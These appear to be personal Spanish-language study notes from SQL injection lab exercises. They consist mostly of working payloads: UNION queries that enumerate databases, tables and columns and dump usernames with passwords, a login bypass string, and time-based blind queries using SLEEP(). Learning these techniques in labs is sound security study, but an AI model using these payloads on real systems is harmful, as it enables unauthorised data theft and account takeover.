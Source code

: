 # Apuntes

#### Despues de lo siguiente revisar la herramienta sqlninja

1 si podemos ver los resultados, union nos servira para obtener mas info
```sql
--Validar nro de columnas
0 UNION SELECT 1,2,3,...
--Verificar nombre de database
0 UNION SELECT 1,2,database()
--listar tablas
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'db_name'
--listar columnas
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 't_name'
--listar datos concatenados
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM t_name
--Enjoy
```

2. Bypass

```sql
--posible bypass en password
1' or 1=1;--

admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
```


e4

`admin123' UNION SELECT SLEEP(1),2 where database() like 'sqli_four%';--`

database = sqli_four

admin123' UNION SELECT SLEEP(1),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'users%';--

tabla = users